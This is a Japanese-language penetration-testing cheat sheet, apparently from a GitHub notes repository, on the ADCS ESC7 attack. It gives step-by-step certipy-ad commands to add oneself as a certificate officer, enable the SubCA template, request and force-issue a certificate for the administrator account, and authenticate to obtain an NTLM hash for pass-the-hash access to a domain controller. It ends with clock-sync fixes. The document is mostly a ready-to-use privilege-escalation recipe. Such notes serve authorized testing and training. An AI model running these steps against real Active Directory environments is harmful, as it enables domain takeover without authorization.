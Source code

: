 # ESC7

ADCS ESC7 攻撃は、`ManageCA`アクセス権と `Manage Certificates` アクセス権の組み合わせを悪用する。この攻撃では、ManageCAアクセス権を持つ攻撃者は、自分自身を新しい担当者として追加し、自分自身にManage Certificatesアクセス権を付与することできる

その後、下位認証局 `SubCA` 証明書テンプレートを使用して証明書を要求できる。この要求は最初は拒否されるが、高い権限を持つ攻撃者は、以前に拒否された証明書要求を発行できる。これにより、権限を昇格し、ドメイン管理者としてアクセスできるようになる

## 前提条件 – ESC7 攻撃

ESC7攻撃を行うには、次の要件を満たす必要がある

- `ManageCA` 権限

- `Manage Certificates` 権限

  `ManageCA` アクセス権があれば、自分自身に `Manage Certificates` アクセス権を付与することができる。これは、ユーザーアカウントを新しい役員として追加することで実行できる

  ```
  certipy-ad ca -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -dc-ip <DC_IP> -ca <CA_NAME> -add-officer <USERNAME>
  ```

- 証明書テンプレートSubCA を有効にする
  - `ManageCA` および `Manage Certificates` アクセス権を持つユーザーは、失敗した証明書要求を発行できる
  - SubCA 証明書テンプレートは ESC1 に対して脆弱だが、テンプレートに登録できるのは管理者のみ
  - ユーザーはSubCA に証明書を要求できる。この要求は最初は拒否されるが、マネージャーが承認して証明書を発行することができる

すべてのtamplateを表示する

```
certipy-ad ca -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -dc-ip <DC_IP> -ca <CA_NAME> -list-templates
```

証明書テンプレートSubCA を有効にする

```
certipy-ad ca -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -dc-ip <DC_IP> -ca "<CA_NAME>" -enable-template SubCA
```

## 証明書を要求する

### SubCA テンプレートを使用して証明書を要求する

```
certipy-ad req -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -ca <CA_NAME> -target <DC_IP> -template SubCA -upn administrator@<DOMAIN>
```

### 失敗した証明書要求を発行する

```
# 以前に拒否されたリクエストIDを指定する
certipy-ad req -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -ca <CA_NAME> -issue-request <id>
```

### 発行された証明書を取得する

```
certipy-ad req -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -ca <CA_NAME> -target <DC_IP> -retrieve <id>
```

### 証明書を使用して認証する

```
certipy-ad auth -pfx administrator.pfx -dc-ip <DC_IP>
```

NTLMハッシュを取得すると Pass-The-Hash攻撃でDCにアクセスできる

[Pass-The-Hash]()



## 証明書取得の際にエラーが出るとき

攻撃端末と攻撃対象のサーバーの時間が同期されていないと `[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` というエラーが出て、失敗するので攻撃対象のサーバーの時間を同期する必要がある。

以下のコマンドでDNSサーバ―と時間を同期させる

```
sudo ntpdate -n <DNS_IP>
```

これでもうまくいかない場合、ネットワークタイムプロトコルの自動更新を無効にする

```
timedatectl set-ntp off
```

その後、時間をもう一度同期させるとできるはず

